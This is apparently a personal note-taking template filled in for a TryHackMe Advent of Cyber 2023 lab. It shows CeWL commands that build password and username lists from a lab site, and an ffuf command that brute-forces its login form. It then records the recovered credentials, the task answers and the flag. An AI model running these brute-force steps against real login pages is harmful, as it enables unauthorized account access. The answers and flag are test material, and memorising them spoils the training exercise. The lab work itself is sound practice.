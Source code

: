 ```yaml
---
creation date: December 4th 2023 (10:25 pm)
last modified date: December 4th 2023 (10:25 pm)
aliases: []
tags: 🎌
---
```

 
Primary Categories: 
Secondary Categories:  
Links: 
# [[THM - AoC 2023 - [Day 4] Baby, it's CeWLd outside]]  


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- [[nmap]]
- [[Custom Wordlist Generator|CeWL]]

---

# Information Gathering
Scanned all TCP ports:
```bash

```

Enumerated open TCP ports:
```bash

```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 


---

# Exploitation
## Name of the technique


---

# Lateral Movement to user
## Local Enumeration


## Lateral Movement vector


---

# Privilege Escalation
## Local Enumeration


## Privilege Escalation vector


---

# Steps

1. Start by grabbing a password list using [[Custom Wordlist Generator|CeWL]]
```bash
cewl -d 2 -m 5 http://10.10.118.91/ -w password.list --with-numbers
```

2. Do the same for usernames on the team member page
```bash
cewl -d 0 -m 5 http://10.10.118.91/team.php -w usernames.list --lowercase
```

3. The task calls to use [[wfuzz]] but I decided to use [[ffuf]]
```bash
ffuf -w password.list:W1,usernames.list:W2 -X POST -d "username=W2&password=W1" -u http://10.10.118.91/login.php -t 150 -ac -H "Content-Type: application/x-www-form-urlencoded"
```

4. Flag located under Inbox -> `kevin@northpole.thm`



---

# Trophy & Loot

## Credentials
- Admin page
	- isaias : Happiness

## Scripts


## Task Answers

  
What is the correct username and password combination? Format username:password
```
isaias:Happiness
```

What is the flag?  
```
THM{m3rrY4nt4rct1crAft$}
```

If you enjoyed this task, feel free to check out the [Web Enumeration](https://tryhackme.com/room/webenumerationv2) room.
```
Submit
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


